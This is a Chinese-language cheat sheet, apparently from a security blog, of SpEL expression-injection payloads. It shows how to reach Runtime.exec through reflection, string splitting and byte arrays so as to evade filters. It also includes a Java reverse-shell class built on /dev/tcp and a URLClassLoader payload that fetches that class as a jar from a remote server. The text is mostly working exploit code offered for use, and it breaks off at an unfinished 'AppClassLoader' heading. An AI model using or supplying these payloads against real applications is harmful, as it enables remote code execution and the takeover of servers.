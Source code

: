```java  
```  
#### 基础Bypass  
```java  
// Bypass技巧  
   
// 反射调用  
T(String).getClass().forName(&#34;java.lang.Runtime&#34;).getRuntime().exec(&#34;calc&#34;)  
   
// 同上，需要有上下文环境  
#this.getClass().forName(&#34;java.lang.Runtime&#34;).getRuntime().exec(&#34;calc&#34;)  
   
// 反射调用&#43;字符串拼接，绕过如javacon题目中的正则过滤  
T(String).getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;).getMethod(&#34;ex&#34;&#43;&#34;ec&#34;,T(String[])).invoke(T(String).getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;).getMethod(&#34;getRu&#34;&#43;&#34;ntime&#34;).invoke(T(String).getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;)),new String[]{&#34;cmd&#34;,&#34;/C&#34;,&#34;calc&#34;})  
   
// 同上，需要有上下文环境  
#this.getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;).getMethod(&#34;ex&#34;&#43;&#34;ec&#34;,T(String[])).invoke(T(String).getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;).getMethod(&#34;getRu&#34;&#43;&#34;ntime&#34;).invoke(T(String).getClass().forName(&#34;java.l&#34;&#43;&#34;ang.Ru&#34;&#43;&#34;ntime&#34;)),new String[]{&#34;cmd&#34;,&#34;/C&#34;,&#34;calc&#34;})  
   
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1  
// byte数组内容的生成后面有脚本  
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()  
   
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2  
// byte数组内容的生成后面有脚本  
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))  
```  
### 通过ClassLoader类加载器构造PoC&amp;Bypass  
#### URLClassLoader结合SpEL表达式注入  
先构造一份`Exp.jar`，放到远程vps即可，  
反弹shell  
```java  
public class Exp{  
    public Exp(String address){  
        address = address.replace(&#34;:&#34;,&#34;/&#34;);  
        ProcessBuilder p = new ProcessBuilder(&#34;/bin/bash&#34;,&#34;-c&#34;,&#34;exec 5&lt;&gt;/dev/tcp/&#34;&#43;address&#43;&#34;;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done&#34;);  
        try {  
            p.start();  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
}  
```  
Payload  
必须使用全限定类名  
```java  
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL(&#34;http://127.0.0.1:8999/Exp.jar&#34;)}).loadClass(&#34;Exp&#34;).getConstructors()[0].newInstance(&#34;127.0.0.1:2333&#34;)  
```  
#### AppClassLoader  
加载Runtime执行  